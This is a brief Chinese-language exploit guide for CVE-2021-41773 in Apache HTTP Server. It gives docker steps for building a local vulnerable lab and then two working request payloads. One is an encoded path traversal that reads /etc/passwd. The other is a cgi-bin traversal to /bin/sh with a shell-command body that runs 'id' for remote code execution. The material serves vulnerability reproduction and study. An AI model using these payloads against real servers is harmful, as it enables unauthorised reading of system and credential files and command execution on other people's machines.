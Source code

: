 参考链接：  
https://github.com/blasty/CVE-2021-41773  

### 环境搭建
1、下载docker环境配置文件：https://github.com/blasty/CVE-2021-41773/archive/refs/heads/master.zip  
2、解压后执行：docker-compose build && docker-compose up  
3、访问宿主机8080端口：http://127.0.0.1:8080

### 漏洞利用
1、文件读取payload  
```
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
如下图  
![image](./pic/1.png)  
2、RCE payload  
```
/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh
```
并添加body  
```
echo Content-Type: text/plain; echo; id
```
如下图  
![image](./pic/2.png)  
